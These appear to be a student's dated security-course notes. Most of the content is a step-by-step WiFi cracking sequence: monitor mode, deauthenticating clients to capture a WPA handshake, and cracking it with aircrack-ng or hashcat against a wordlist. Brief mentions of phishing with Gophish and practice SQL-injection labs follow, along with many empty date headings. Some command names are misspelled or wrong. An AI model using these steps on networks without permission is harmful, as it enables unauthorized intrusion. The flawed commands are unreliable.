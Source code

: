 # October 12

## Wifi hacking

### Show all interfaces

```bash
iwconfig
```
### Check if any process is holding the wifi

```bash
sudo airmon-ng check kill
```

### Start monitor mode

```bash
sudo airmon-ng start wlan0
```

### Some stuff

```bash
sudo airmon-ng wlan0mon
```

See the BSSID for ur wifi

```bash
sudo airmon-ng --bssid <BSSID> -c 2 -w capture wlan0mon
```

### Disconnecting the clients so when they try n connect again we can spoof stuff

```bash
sudo aireplay-ng -0 0 -a <TARGET-BSSID> -c <CLIENT_BSSID> wlan0mon
```

### some file will be saved

```bash
airecrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

This is one way of cracking, the other way is


# Cracking wifi Password using HashCat

## Converting the file format
By default the hashcat stuff is not installed in kali so install it

```bash
/usr/share/hashcat-utils/cap2hccapx.bin capture-01.cap capture.hccapx
```

```bash
hashcat -a 0 -m 2500 capture.hccapx /usr/share/wordlists/rockyou.txt -o capture.txt
```

Here `capture.txt` is the output file where the password will be stored.


## View the password

```bash
cat capture.txt
```


## Another way

```bash
hashcat -a 0 -m 100 top100.txt mine.txt -o passwords.txt
```

`Top100` is a list with a lot of hashes



## Phishing

Cybercriminal attempts to steal personal and financial info or infect the computers and other devices with malware and viruses.

We have `Gophish` as a tool for playing around with phishing stuff.



# October 13

### SQL, XSS, CSRA stuff

```
https://juice-shop.herokuapp.com/#/
```

Do SQL injection to login in the website.


# October 20

SQL Injection
```bash
https://tryhackme.com/room/sqlilab
```

```bash
https://247ctf.com/dashboard
```

```bash
websec.fr
```

# September 1


# September 2


# September 7

## Vulnerability Assessment using Nessus

### Advanced Scan

# September 8

# September 9

# September 14

# September 15

## Basic concepts of cryptography

# September 16

## Public and Private key encrytpion and auth

# September 21


